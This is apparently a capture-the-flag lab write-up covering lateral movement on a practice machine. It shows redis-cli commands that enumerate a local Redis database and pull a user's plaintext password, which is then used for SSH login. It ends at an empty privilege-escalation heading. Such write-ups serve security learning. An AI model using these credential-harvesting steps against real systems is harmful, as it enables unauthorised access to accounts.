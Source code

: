 ## Lateral Movement

### `www-data` → `cooper` 🚩

#### Exploitation

1. We can use `redis-cli` to connect to the Redis database:
    ```bash
    redis-cli -s /var/run/redis/redis.sock
    ```
2. The password for the user `cooper` can be found in plain text in the database:
    ```
    redis /var/run/redis/redis.sock> info
    ...
    # Keyspace
    db0:keys=2,expires=0,avg_ttl=0
    ```
    ```
    redis /var/run/redis/redis.sock> select 0
    OK
    ```
    ```
    redis /var/run/redis/redis.sock> keys *
    1) "cooper.dooper:sites"
    2) "cooper.dooper"
    ```
    ```
    redis /var/run/redis/redis.sock> type cooper.dooper
    hash
    ```
    ```
    redis /var/run/redis/redis.sock> hkeys cooper.dooper
    1) "username"
    2) "password"
    3) "first-name"
    4) "last-name"
    5) "pro"
    ```
    ```
    redis /var/run/redis/redis.sock> hget cooper.dooper password
    "zooperdoopercooper"
    ```
3. With the password `zooperdoopercooper` we can log in via SSH as `cooper`. 🚩

## Privilege Escalation

### `cooper` → `root` 🏁
